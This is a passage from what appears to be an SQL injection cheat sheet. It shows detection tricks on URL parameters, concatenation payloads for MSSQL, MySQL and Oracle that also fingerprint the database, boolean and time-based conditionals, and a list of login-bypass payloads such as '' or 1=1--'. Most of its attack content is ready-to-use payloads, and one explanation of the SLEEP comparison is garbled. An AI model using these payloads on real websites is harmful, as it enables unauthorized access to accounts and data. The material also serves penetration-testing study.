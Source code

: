   `http://sql.example.org/news?id=100-1`

   and if we got `id=99` that means we have an sqli.

* What if we have a string instead of a integer?

  For Example:

  `http://sql.example.org/news?page=example`

With the above case it’s possible to utilize string concatenation in a similar way, where if the string is evaluated and concatenated then the output should not change whereas if it is no evaluated then a noticeable change in output will occur. The method of concatenation differs between back-end database types however if one works you have the added benefit of fingerprinting the database type!.

#### MSSQL

```mssql
exa'+'mple
With URLs a + is space, use %2b instead (URI encoded plus sign)!
```

#### MySQL

```mysql
exa' 'mple (that's a space between two apostrophes)
```

#### Oracle

```oracle
exa'||'mple
```

Another way of detecting the vulnerability is to concatenate a simple conditional at the end of the input, such as:

```ex
AND 1=1 -- (This will get evaluated as True as 1=1)
AND 1=2 -- (This will get evaluated as False as 1 is not equal to 2)
```

Awesome now we have learned lots of tricks but what if `'` is not allowed ? In that case we can use comparisons between valid and invalid system variables. Let's see the example:

```ex
AND (SELECT @@version)=(SELECT @@version) -- 

AND SLEEEP(5)=SLEEP(5) --
```

First one is valid but is invalid because `SLEEEP` is not equal to `SLEEP` .

### Bypassing Login Screens (SMO+)

#### SQL Injection 101, Login tricks

```tricks
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--
' or 1=1 limit 1 -- -+
'="or'
admin' or 2 LIKE 2--
```

